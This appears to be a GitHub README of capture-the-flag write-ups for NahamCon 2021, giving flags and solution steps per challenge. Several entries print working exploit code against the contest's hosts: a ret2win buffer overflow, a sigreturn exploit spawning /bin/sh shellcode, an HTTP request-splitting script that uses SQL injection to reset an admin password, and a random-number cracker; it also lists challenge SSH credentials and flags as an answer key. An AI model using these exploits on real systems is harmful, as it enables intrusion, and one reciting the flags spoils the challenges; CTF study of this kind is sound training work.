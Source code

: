 # NahamCon CTF

## Challenges

1. [Rules Source Code](#rules-source-code)
2. [Nahamcon2021](#nahamcon2021)
3. [Veebee](#veebee)
4. [Echo](#echo)
5. [Homeward Bound](#homeward-bound)
6. [Shoelaces](#shoelaces)
7. [Pollex](#pollex)
8. [Car Keys](#car-keys)
9. [Eighth Circle](#eighth-circle)
10. [Henpeck](#henpeck)
11. [Ret2basic](#ret2basic)
12. [The List](#the-list)
13. [Esab64](#esab64)
14. [Resourceful](#resourceful)
15. [Chicken Wings](#chicken-wings)
16. [Andra](#andra)
17. [Merch Store](#merch-store)
18. [Bad Blog](#bad-blog)
19. [Dice Roll](#dice-roll)
20. [Microscopium](#microscopium)
21. [Typewriter](#typewriter)
22. [Some-really-ordinary-program](#some-really-ordinary-program)
23. [Weather APP](#weather-app)
24. [Eaxy](#eaxy)
25. [Mission](#mission)
26. [Bionic](#bionic)
27. [Meet The Team](#meet-the-team)
28. [Gus](#gus)
29. [Hercules](#hercules)
30. [Lyra](#lyra)
31. [Orion](#orion)
32. [Leo](#leo)
33. [Hydraulic](#hydraulic)
34. [Banking On It](#banking-on-it)
35. [Internal](#internal)
36. [Degrade](#degrade)
37. [Centaurus](#centaurus)

#### Rules Source Code
<details><summary>Solution</summary>

Looking at the rules page source code
https://ctf.nahamcon.com/rules

![image](https://user-images.githubusercontent.com/1076452/111090411-65452a00-850e-11eb-943b-b20405467058.png)

```flag{90bc54705794a62015369fd8e86e557b}```

</details>

#### Nahamcon2021
<details><summary>Solution</summary>

https://twitter.com/NahamSec/status/1370077327082680321

![image](https://user-images.githubusercontent.com/1076452/111090516-bc4aff00-850e-11eb-9ec5-84700071e38d.png)

```flag{e36bc5a67dd2fe5f33b62123f78fbcef}```
</details>

#### Veebee
<details><summary>Solution</summary>

For this challenge, I used the tool VB Script Coders.exe
https://www.aldeid.com/wiki/Decode-VBE-script

![image](https://user-images.githubusercontent.com/1076452/111078386-de735b80-84d3-11eb-912b-a0be3716c787.png)

Clicked VBE-2-VBS button, selected the vbe file and the tool generated a file called "decoded.vbs". Looking at the "decoded.vbs" source code it was still encoded so changed the extension from .vba to .vbe and decoded it again.

![image](https://user-images.githubusercontent.com/1076452/111078404-f77c0c80-84d3-11eb-9234-6d43c5088ee0.png)

```flag{f805593d933f5433f2a04f082f400d8c}```
</details>

#### Echo

<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111018313-e7124780-8396-11eb-8fa1-b99817861f79.png)

![image](https://user-images.githubusercontent.com/1076452/111018299-d6fa6800-8396-11eb-8e52-279d10ecd11a.png)

![image](https://user-images.githubusercontent.com/1076452/111018288-cba73c80-8396-11eb-8d5b-53e1e3203942.png)

```flag{1beadaf44586ea4aba2ea9a00c5b6d91}```

</details>


#### Homeward Bound

<details><summary>Solution</summary>

When entering the website, it displayed a message "Sorry, this page is not accessible externally".
![image](https://user-images.githubusercontent.com/1076452/111000058-25d8db00-8360-11eb-9b99-3a045d6fd1f2.png)


Added "X-Fordered-For: 127.0.0.1" header (which is a common method for identifying the originating IP address of a client connecting to a web server through an HTTP proxy or load balancer) and got the flag.
![image](https://user-images.githubusercontent.com/1076452/111000087-30937000-8360-11eb-998c-07f49f530a66.png)

```flag{26080a2216e95746ec3e932002b9baa4}```

</details>

#### Shoelaces
<details><summary>Solution</summary>

strings shoelaces.jpg | grep flag

```flag{137288e960a3ae9b148e8a7db16a69b0}```

</details>

#### Pollex
<details><summary>Solution</summary>

Using binwalk to extract all files from challenge file

```binwalk --dd='.*' pollex```

![image](https://user-images.githubusercontent.com/1076452/111015405-6435c080-8387-11eb-8b51-a97ce86ac290.png)

```flag{65c34a1ec121a286600ddd48fe36bc00}```
</details>

#### Car Keys
<details><summary>Solution</summary>

Using https://cryptii.com/ and alphabetical substitution with the encoded flag and the key (qwerty) obtained from challenge description.

![image](https://user-images.githubusercontent.com/1076452/111019745-e7631080-839f-11eb-9708-59de62d02bc9.png)

```flag{6f980c0101c8aa361977cac06508a3de}```
</details>

#### Eighth Circle
<details><summary>Solution</summary>

http://www.malbolge.doleczek.pl/

![image](https://user-images.githubusercontent.com/1076452/111020021-baaff880-83a1-11eb-8efd-e168fd0f6bdd.png)
</details>

#### Henpeck
<details><summary>Solution</summary>

```tshark -r ./henpeck.pcap -Y 'usb.capdata && usb.data_len == 8' -T fields -e usb.capdata | sed 's/../:&/g2' > keyboards.txt```

https://github.com/TeamRocketIst/ctf-usb-keyboard-parser

```
python usbkeyboard.py keyboards.txt 
so the answer is flag{f7733e0093b7d281dd0a30fcf34a9634} hahahah lol
```
</details>

#### Ret2basic

<details><summary>Solution</summary>

```
#!/usr/bin/python
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./ret2basic')
context.terminal = ['tmux', 'splitw', '-hp', '70']

def start():
    if args.GDB:
        return gdb.debug('./ret2basic', gdbscript=gs)
    if args.REMOTE:
        return remote('challenge.nahamcon.com', 30413)
    else:
        return process('./ret2basic')
r = start()
#========= exploit here ===================
win = 0x401215
#ret = 0x40133b
payload = "A" * 120
#payload += p64(ret)
payload += p64(win)
r.sendlineafter(": ",payload)

#========= interactive ====================
r.interactive()
```

![image](https://user-images.githubusercontent.com/1076452/111002592-810ccc80-8364-11eb-9f58-0ca4bb807ed0.png)


</details>

#### The List
<details><summary>Solution</summary>

```flag{0eb219803dbfcda8620dae0772ae2d72}```
</details>

#### esab64
<details><summary>Solution</summary>

cat esab64 | rev | base64 -d | rev

```flag{fb5211b498afe87b1bd0db601117e16e}```
</details>

#### Resourceful
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111007125-e1077100-836c-11eb-9a10-edb11904272d.png)

![image](https://user-images.githubusercontent.com/1076452/111007090-cf25ce00-836c-11eb-989e-3e9f1d579b6c.png)

![image](https://user-images.githubusercontent.com/1076452/111007110-da78f980-836c-11eb-9510-ce5ad11a8954.png)

```flag{7eecc051f5cb3a40cd6bda40de6eeb32}```
</details>

#### Chicken wings 
<details><summary>Solution</summary>

https://lingojam.com/WingDing

```flag{e0791ce68f718188c0378b1c0a3bdc9e}```
</details>

#### Andra
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111007452-a9e58f80-836d-11eb-8fcb-2b86f03bf057.png)

![image](https://user-images.githubusercontent.com/1076452/111007468-b2d66100-836d-11eb-91b5-ac0fed2e04a5.png)

![image](https://user-images.githubusercontent.com/1076452/111007499-b833ab80-836d-11eb-892e-e2854621be02.png)

```flag{d9f72316dbe7ceab0db10bed1a738482}```
</details>

#### Merch Store
<details><summary>Solution</summary>

Source code merch store

```flag{fafc10617631126361c693a2a3fce5a7} ```
</details>

#### Bad Blog
<details><summary>Solution</summary>

SQLi En user agent
![image](https://user-images.githubusercontent.com/1076452/111036069-1c9d4c00-83fc-11eb-8b89-be0cd7109da4.png)

![image](https://user-images.githubusercontent.com/1076452/111036081-2e7eef00-83fc-11eb-9070-ff2fe726a45b.png)

![image](https://user-images.githubusercontent.com/1076452/111036096-40609200-83fc-11eb-91ee-bece11537691.png)

![image](https://user-images.githubusercontent.com/1076452/111036157-8e759580-83fc-11eb-8e5d-18b9580a45c2.png)

![image](https://user-images.githubusercontent.com/1076452/111036146-8158a680-83fc-11eb-883a-568c950166ae.png)

![image](https://user-images.githubusercontent.com/1076452/111036109-4eaeae00-83fc-11eb-820f-9789a85bca4d.png)

```flag{8b31eecb1831ed594fa27ef5b431fe34}```
</details>

#### Dice Roll
<details><summary>Solution</summary>

https://github.com/tna0y/Python-random-module-cracker

```
#!/usr/bin/env python
from pwn import *
from randcrack import RandCrack

rc = RandCrack()
r = remote('challenge.nahamcon.com', 31784)

def roll():
    r.sendlineafter("> ","2")
    r.recvline()
    data = r.recvline()
    rc.submit(int(data))

def guess(num):
    print("Guessing the dice...")
    r.sendlineafter("> ","3")
    r.sendlineafter("> ","{}".format(num))
    data = r.recvline()
    print(data)
    r.recvline()
    data = r.recvline()
    print(data)

print("Getting data to make prediction...")
for i in range(624):
    roll()

num = rc.predict_getrandbits(32)
print("Predicted: {}".format(num))
guess(num)
```

![image](https://user-images.githubusercontent.com/1076452/111038864-db139d80-8409-11eb-9023-5fbcb952e2ea.png)

```flag{e915b62b2195d76bfddaac0160ed3194}```
</details>

#### Microscopium
<details><summary>Solution</summary>

React APP

![image](https://user-images.githubusercontent.com/1076452/111053514-29915e00-8443-11eb-9c2c-2f80fb1c2181.png)

```
apktool.jar d microscopium.apk
npx react-native-decompiler -i index.android.bundle -o ./output
```

![image](https://user-images.githubusercontent.com/1076452/111053531-4fb6fe00-8443-11eb-944f-2f67f8adf188.png)

Bruteforce PIN
```
const { Base64 } = require('js-base64');
const { sha256 } = require('js-sha256')

var cipher64 = "AA9VAhkGBwNWDQcCBwMJB1ZWVlZRVAENW1RSAwAEAVsDVlIAV00=";
var partKey = 'pgJ2K9PMJFHqzMnqEgL';

var n = Base64.toUint8Array(cipher64);

for (pin = 0; pin <= 9999; pin++) {
    hash = sha256.create()
    hash.update(partKey);
    hash.update(String(pin));

    var u = ''
    for (var l = hash.hex(), c = 0; c < n.length; c++) {
        u += String.fromCharCode(n[c] ^ l.charCodeAt(c));
    }

    if (u.indexOf('flag{') != -1) {
        console.log("Pin: " + pin);
        break;
    }
}
console.log(u)
```
```
Pin: 4784
flag{06754e57e02b0c505149cd1055ba5e0b}
```
</details>

#### Typewriter
<details><summary>Solution</summary>

https://digital-forensics.sans.org/media/volatility-memory-forensics-cheat-sheet.pdf

```volatility imageinfo -f image.bin```

![image](https://user-images.githubusercontent.com/1076452/111054076-3ebcbb80-8448-11eb-80ff-bce10100edd7.png)

```volatility -f image.bin --profile=Win7SP1x86_23418 cmdline```

![image](https://user-images.githubusercontent.com/1076452/111054089-5eec7a80-8448-11eb-83d7-1090de2c698d.png)

```volatility -f image.bin --profile=Win7SP1x86_23418 filescan | grep .docx```

![image](https://user-images.githubusercontent.com/1076452/111054096-79beef00-8448-11eb-889a-bc721ae3a9c8.png)

```volatility -f image.bin --profile=Win7SP1x86_23418 dumpfiles -Q 0x000000007eb665b8 -n --dump-dir=.```

![image](https://user-images.githubusercontent.com/1076452/111054105-8c392880-8448-11eb-84c0-c3c7f4d74426.png)

![image](https://user-images.githubusercontent.com/1076452/111054054-061ce200-8448-11eb-9a86-b5050475f6ce.png)

```flag{c442f9ee67c7ab471bb5643a9346cf5e}```
</details>

#### some-really-ordinary-program
<details><summary>Solution</summary>

```
#!/usr/bin/env python3
from pwn import *
import sys
import subprocess

context(terminal=['tmux', 'new-window'])
context(os="linux", arch="amd64")

p_name = "./some-really-ordinary-program"  ## change for the challenge name
DEBUG = 0
context.log_level = "debug"

if DEBUG:
    
    p = process(p_name)         ## Start the new process
    gdb_command = '''b * 0x401056'''.split('\n')    ## The command that will run gdb at startup
    attach_command = "tmux new-window gdb {} {} ".format(p_name,p.pid)
    for k in gdb_command:
        attach_command += '''--eval-command="{}" '''.format(k)
    log.debug("Starting a new gdb session with the following command: {}".format(attach_command))
    subprocess.Popen(attach_command, shell=True, stdin=subprocess.PIPE)
else:
    p = remote("challenge.nahamcon.com", 32119)
## everything goes here

####    ADDRESSES  ####

call_read = p64(0x401000)
syscall_ret = p64(0x40100e)   #   syscall; ret
sub_rsp = p64(0x401026)
push_rbp = p64(0x401022)
main = p64(0x401022)

call_read_p3 = p64(0x401006)

bss = 0x0000000000402000 
####               ####
####    FUNCTIONS  ####
####               ####

input("Send first payload ? ")

frame_mprotect = SigreturnFrame()

frame_mprotect.rax = 0xa
frame_mprotect.rdi = 0x0000000000400000
frame_mprotect.rsi = 0x1000
frame_mprotect.rdx = 0x7
frame_mprotect.rsp = 0x400088
frame_mprotect.rip = u64(syscall_ret)

# Make the bss writable and executable

payload = b''
payload += b'A' * 508
payload += push_rbp
#payload += call_read
payload += syscall_ret
payload += bytes(frame_mprotect)
payload += b'B' * 8
payload += b'C' * 8

p.sendline(payload)

input("Send second payload ? ")

p.sendline(b'F' * (0xf-1) )

input("Send third payload ? ")
payload = b''
payload += b'\x31\xc0\x50\x48\x31\xff\x48\xc7\xc0\x3b\x00\x00\x00\x48\xc7\xc7\x88\x00\x40\x00\x48\x31\xf6\x48\x31\xd2\x0f\x05'

'''
rasm2 -b 64 'xor eax, eax 
push eax
xor rdi, rdi
mov rax, 0x3b
mov rdi, 0x400088
xor rsi, rsi
quote> xor rdx, rdx
quote> syscall'
'''

payload += b'A' * (144 - len(payload) - len(b'/bin/sh\x00'))   #   Reach the place on the bss where the RSP is placed to overwrite the return address
payload += b'/bin/sh\x00'
payload += p64(0x400000) #   return to the shellcode, since we have the bss executable now
p.sendline(payload)

p.interactive()
```
```flag{175c051dbd3db6857f3e6d2907952c87}```
</details>

#### Weather APP
<details><summary>Solution</summary>

```
#!/usr/bin/python3

import requests
import sys
from requests.utils import requote_uri


if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} <url>")
    exit(127)

headers = {
            "Host": "127.0.0.1"
        }

# problematic chars for nodejs 8.12 (https://jaeseokim.tistory.com/98)
SPACE = "Ġ"
CRLF = "čĊ"
SLASH = "į"

# base post data
post_payload = "username={}&password=bruh"

# sql payload to update admin pass
payload = "admin','bruh') ON CONFLICT(username) DO UPDATE SET password='bruh'; --"

# urlencoded sql payload
sql_payload = requote_uri(payload)

# insert payloads into base payloads and calc length
user_payload = post_payload.format(sql_payload)
l_payload = len(post_payload.format("")) + len(sql_payload)+10

# payload sent to /api/weather/ endpoint
base_payload = "127.0.0.1/test"+SPACE+"HTTP"+SLASH+"1.1"+CRLF+"HOST:"+SPACE+"127.0.0.1"+CRLF*2+"POST"+SPACE+SLASH+"register"+SPACE+"HTTP"+SLASH+"1.1"+CRLF+"HOST:"+SPACE+"127.0.0.1"+CRLF+"CONTENT-TYPE:"+SPACE+"application"+SLASH+"x-www-form-urlencoded"+CRLF+"CONTENT-LENGTH:"+SPACE+str(l_payload)+CRLF*2+user_payload+CRLF*2+"GET"+SPACE+SLASH+"aaa#"

data = {"endpoint": base_payload,
        "city": "bruh_city",
        "country": "bruh country"
        }

# get url from cmdline arg
url = sys.argv[1]

res = requests.post(url, data, headers)
print(res.text)
```
```HTB{w3lc0m3_t0_th3_p1p3_dr34m}```
</details>

#### Eaxy
<details><summary>Solution</summary>

```
#!/usr/bin/env python3
import string
import re

charset = string.ascii_lowercase + string.digits + '{}'

def xor_strings(xs, ys):
    return "".join(chr(ord(x) ^ ord(y)) for x, y in zip(xs, ys))

flag = [' '] * 38
def brute(data,val):
    xord_byte_array = bytearray(len(data))
    for i in range(len(xord_byte_array)):
	    xord_byte_array[i] = data[i] ^ ord(val)
    d = xord_byte_array.decode('utf-8')

    if 'flag' in d:
        result = re.findall( r'is the (.*?) character',d)
        for r in result:
            flag[int(r)] = val

f = open('eaxy', 'rb')
data = bytearray(f.read())

for i in charset:
    brute(data,i)
print(''.join(flag))
```
```flag{16edfce5c12443b61828af6cab90dc79}```
</details>

## Mission
<details><summary>Solution</summary>

Source code

![image](https://user-images.githubusercontent.com/1076452/111015203-6ea38a80-8386-11eb-833a-647bffe6b2b6.png)

```flag{48e117a1464c3202714dc9a350533a59}```
</details>

### Bionic
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111012004-27170180-837a-11eb-8aa6-8f0434726b1b.png)
</details>

### Meet The Team
<details><summary>Solution</summary>

https://github.com/internetwache/GitTools

https://constellations.page/.git/

git show

![image](https://user-images.githubusercontent.com/1076452/111013989-719b7c80-8380-11eb-9d8b-719daeb8cbe1.png)

</details>

### Gus
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111011972-ffc03480-8379-11eb-8996-25197d69882c.png)

</details>

### Hercules
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111013207-5da24b80-837d-11eb-94b6-fa2ce6b44d39.png)
</details>

### Lyra
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111014284-c986b300-8381-11eb-86a2-847f0693ee78.png)

![image](https://user-images.githubusercontent.com/1076452/111014303-de634680-8381-11eb-85ee-3b94b44dac07.png)

![image](https://user-images.githubusercontent.com/1076452/111014312-ea4f0880-8381-11eb-9bfb-d8e0a0ae7060.png)
</details>

### Orion
<details><summary>Solution</summary>

https://twitter.com/OrionMorra/status/1363789936219082756

![image](https://user-images.githubusercontent.com/1076452/111014551-ea9bd380-8382-11eb-9418-a6b223bd1c13.png)
</details>

### Leo
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111017557-1c1c9b00-8393-11eb-8485-7011fa58aea8.png)

![image](https://user-images.githubusercontent.com/1076452/111017573-2b034d80-8393-11eb-996e-b7169e37a59f.png)

``` flag{636db5f4f0e36908a4f1a4edc5b0676e}  A password for Leo is `constelleorising` ```

</details>

### Sensible
<details><summary>Solution</summary>

Entrar con datos de leo -> leo:constelleorising

</details>

### Hydraulic
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111021178-5133e800-83a9-11eb-8fb5-8724f47169f7.png)

```[ssh] host: challenge.nahamcon.com   login: pavo   password: starsinthesky```

![image](https://user-images.githubusercontent.com/1076452/111021210-8b9d8500-83a9-11eb-8aac-24088f8267f2.png)

```flag{cadbbfd75d2547700221f8c2588e026e}```
</details>

### Banking On It
<details><summary>Solution</summary>

Entrar con user gus e id_rsa

https://github.com/gusrodry/development/tree/master/config/.ssh
</details>

### Internal
<details><summary>Solution</summary>

</details>

### Degrade
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111021372-7a08ad00-83aa-11eb-80c7-5ecc86733971.png)
</details>

### Centaurus
<details><summary>Solution</summary>

![image](https://user-images.githubusercontent.com/1076452/111052561-9d7b3880-843a-11eb-9c3e-7bd1e74b1e44.png)

![image](https://user-images.githubusercontent.com/1076452/111052567-b257cc00-843a-11eb-9555-6d4ad8dec3a2.png)

![image](https://user-images.githubusercontent.com/1076452/111052569-bd126100-843a-11eb-8e22-f329691d9a0e.png)

![image](https://user-images.githubusercontent.com/1076452/111052573-c7ccf600-843a-11eb-866f-9f8872ffbfd6.png)

```flag{4a8f943a965086945794066f7ce97f23}```
</details>

